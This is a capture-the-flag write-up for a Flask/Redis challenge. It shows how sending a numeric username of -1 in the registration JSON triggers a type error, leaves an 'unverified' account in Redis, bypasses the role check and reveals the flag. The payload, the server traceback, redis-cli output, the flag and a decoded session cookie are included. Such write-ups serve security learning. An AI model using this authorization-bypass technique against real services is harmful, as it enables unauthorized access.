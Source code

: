 # Type confusion vuln

## (dont forget to delete/reset your cookies when testing different stuff)

Register and intercept your request to look like this:

`{"username":-1,"password":"test123"}`

Setting username to a -1 instead of a string (no quotes) will cause the server to error out, yet still create a user entry in the redis cache

```
flask-1  |   File "/app/application/main.py", line 78, in register
flask-1  |     matches = re.match(username,password)
flask-1  |               ^^^^^^^^^^^^^^^^^^^^^^^^^^^
flask-1  |   File "/usr/local/lib/python3.12/re/__init__.py", line 167, in match
flask-1  |     return _compile(pattern, flags).match(string)
flask-1  |            ^^^^^^^^^^^^^^^^^^^^^^^^
flask-1  |   File "/usr/local/lib/python3.12/re/__init__.py", line 299, in _compile
flask-1  |     raise TypeError("first argument must be string or compiled pattern")
flask-1  | TypeError: first argument must be string or compiled pattern
```

We can verify in a local docker using redis-cli that our user has been created but assigned the "unverified" role instead of the normal "user" role, bypassing the role check and allowing us to see the flag at /dashboard.

```
127.0.0.1:6379> KEYS *
1) "user:-1:password"
2) "user:-1:role"
127.0.0.1:6379> GET user:-1:role
"unverified"
```
## Upon logging in:
`Welcome admin! Here you go: SIVUSCG{h0w_b0ut_d4t}`

We can decode our JWT cookie to see what it looks like:
eyJsb2dnZWRfaW4iOnRydWUsInJvbGUiOiJ1bnZlcmlmaWVkIiwidXNlcm5hbWUiOi0xfQ.ZmWTNw.xssBgg9qoR0LAB7VqNziuOFEjhs
```
{
  "logged_in": true,
  "role": "unverified",
  "username": -1
}
```
